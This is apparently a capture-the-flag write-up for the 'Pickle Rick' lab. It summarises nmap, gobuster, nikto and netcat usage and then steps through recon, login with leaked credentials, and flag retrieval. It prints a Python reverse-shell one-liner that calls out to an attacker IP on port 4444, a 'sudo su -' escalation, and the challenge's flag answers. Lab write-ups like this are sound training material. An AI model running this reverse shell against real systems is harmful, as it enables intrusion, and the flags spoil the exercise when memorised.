





# PICKLE RICK

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, nikto, netcat

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

-Sc script scan
-sV probe for service/version info
-oN save output to file
-p- scan all ports

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

dir mode
-u url
-w  wordlist

***nikto***: web server scanner for known vulnerabilities

```
nikto [options...]
```

-host target IP address

**netcat**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

-n suppress name/port resolutions
-l listen mode
-v verbose
-p port

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.55.163

--------------------------------------------------------------------

## PROCEDURE

### 1. FIND FLAG 1

**TOOLS**: nmap, gobuster, nikto, netcat

```
nmap -sC -sV -oN nmap.txt 10.10.55.163
```




**EXPOSED PORT (SERVICE)**: 22 (ssh), 80 (http)

***USERNAME: R1ckRul3s***<br>
Found from inspecting page<br>

Tried to brute force SSH with Hydra but there is no password authentication

```
gobuster dir -u 10.10.55.163 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



robots.txt entry: Wubbalubbadubdub

```
nikto -host 10.10.55.163
```


login.php found
***USERNAME: R1ckRul3s***<br>
***PASSWORD: Wubbalubbadubdub***

cat, head, tail commands disabled. use less instead.
```
less Sup3rS3cretPickl3Ingred.txt
```




***FLAG 1: mr. meeseek hair***

```
less /home/rick/second\ ingredients
```

***FLAG 2: 1 jerry tear***

Start netcat on host machine
```
nc -lvnp 4444
```

Execute in command panel (taken from pentestmonkey)
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.40.234",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

 Get interactive shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
sudo su -
ls
cat 3rd.txt
```



***FLAG 3: fleeb juice***
